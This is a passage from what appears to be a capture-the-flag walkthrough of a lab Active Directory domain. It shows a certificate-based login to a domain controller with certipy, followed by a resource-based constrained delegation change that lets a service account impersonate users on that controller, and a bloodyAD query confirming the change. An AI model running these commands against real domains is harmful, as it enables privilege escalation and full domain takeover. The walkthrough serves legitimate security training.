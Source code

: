     ^C


Now that we have a working certificate, it's just a matter of figuring out how to leverage it. In my case, I use it to give the DC I just authenticated to an RBCD assignment using certipy's ldap-shell.

```sh
 certipy auth -pfx 'dc01.pfx' -dc-ip 10.129.194.106 -ldap-shell
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'dc01$@mirage.htb'
[*]     Security Extension SID: 'S-1-5-21-2127163471-3824721834-2568365109-1109'
[*] Connecting to 'ldaps://10.129.194.106:636'
[*] Authenticated to '10.129.194.106' as: 'u:MIRAGE\\DC01$'
Type help for list of commands

# set_rbcd dc01$ mirage-service$
Found Target DN: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
Target SID: S-1-5-21-2127163471-3824721834-2568365109-1000

Found Grantee DN: CN=Mirage-Service,CN=Managed Service Accounts,DC=mirage,DC=htb
Grantee SID: S-1-5-21-2127163471-3824721834-2568365109-1112
Currently allowed sids:
    S-1-5-21-2127163471-3824721834-2568365109-1110
Delegation rights modified successfully!
mirage-service$ can now impersonate users on dc01$ via S4U2Proxy
```

We can see that the msDS-AllowedToActOnBehalfOfOtherIdentity is now set so that mirage-service can assume whatever it wants so long as it's going through this system.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mirage-service.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object dc01$
```

    
    distinguishedName: CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
    accountExpires: 9999-12-31 23:59:59.999999+00:00
    badPasswordTime: 1601-01-01 00:00:00+00:00
    badPwdCount: 0
    cn: DC01
    codePage: 0
    countryCode: 0
    dNSHostName: dc01.mirage.htb
    dSCorePropagationData: 2025-05-01 07:42:23+00:00
    instanceType: 4
    isCriticalSystemObject: True
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-07-23 04:52:35.368228+00:00
    lastLogonTimestamp: 2025-07-22 23:06:21.796886+00:00
    localPolicyFlags: 0
    logonCount: 681
    memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=mirage,DC=htb; CN=Cert Publishers,CN=Users,DC=mirage,DC=htb
    msDFSR-ComputerReferenceBL: CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=mirage,DC=htb
    msDS-AllowedToActOnBehalfOfOtherIdentity: O:S-1-5-32-544D:(A;;0xf01ff;;;S-1-5-21-2127163471-3824721834-2568365109-1109)
    msDS-GenerationId: 7P4U37a/OUw=
    msDS-SupportedEncryptionTypes: 28
    nTSecurityDescriptor: O:S-1-5-21-2127163471-3824721<snip>68365109-519)(A;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
    name: DC01
    objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=mirage,DC=htb